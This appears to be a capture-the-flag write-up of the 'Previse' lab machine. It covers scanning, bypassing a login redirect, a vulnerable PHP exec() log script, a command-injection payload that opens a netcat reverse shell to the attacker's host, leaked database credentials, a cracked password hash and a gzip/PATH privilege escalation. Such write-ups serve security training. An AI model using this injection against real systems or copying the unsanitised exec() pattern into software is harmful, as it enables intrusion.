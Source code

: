 # Previse # 

## 1. Nmap 

~~~sql
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

~ We see that httponly is not set, so we could steal the admin pass with some simple XSS. We keep this in mind. Let's continue to Burp.. Burp doesn't seem to show anything special, besides the session cookie in the request which seems to always be the same : ==5jv8fbo6lush7c9d7kthnjc8bs== (Maybe because cache??)
~ We try to find more about this httponly flag, while running dirbuster in the background..

## 2. Dirbuster
~ We found a "nav.php" page which seems to belong to the admin, because it has the "create account" href.. We try and use that but we get redirected. We can just intercept the response in BURP and set the code of the page 200 instead of the 302 redirect.. BOOM we are logged in!!

## Web exploitation
~ Found a backup_site.zip. It contains all the code from the page.. We should be able to solve this without any help now. Following the log files, we know that the username of admin is "m4lwhere"

* From the zip file : *

		Sql Creds : 
			Name : root
			Password : mySQL_p@ssw0rd!:)
			Db : previse
	
	Intresting log file : 
	
~~~php
	<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");                                  
echo $output;                                                                                                     
                                                                                 
$filepath = "/var/www/out.log";                                                                                   
$filename = "out.log";                                                                                            
                                                                         
if(file_exists($filepath)) {                                                                                      
    header('Content-Description: File Transfer');                                                                 
    header('Content-Type: application/octet-stream');                                                             
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');                                
    header('Expires: 0');                                                                                         
    header('Cache-Control: must-revalidate');                                                                     
    header('Pragma: public');                                                                                     
    header('Content-Length: ' . filesize($filepath));                                                             
    ob_clean(); // Discard data in the output buffer                                                              
    flush(); // Flush system headers                                                                              
    readfile($filepath);                                                                                          
    die();                                                                                                        
} else {                                                                                                          
    http_response_code(404);                                                                                      
    die();
} 
?>
~~~

This dev used an "exec" php function to actually delim the log items so we can easily exploit that and get a reverse shell..let's try..
~~~sql
delim=comma%3b+nc+10.10.14.209+1234+-e+/bin/bash --- inside burp request
~~~ 

Played around the server and with the help of SQL creds we got the user hash... Unfortunately, I feel it will pe kinda hard for us to crack it.. : 
*  \$1\$🧂llol$DQpmdvnb7EeuO6UaqRItf. 

One thing which induced me in error was the salt emoji... I thought it was some kind of indication that the "llol$" part is actually just salt and I wasted some time with hashcat on this.. Anyhow, we cracked the password : ilovecody112235! (after 10 mins)


## 3. Privesc
Simple privesc in the end, exploiting the gzip binary along with adding a new PATH variable.
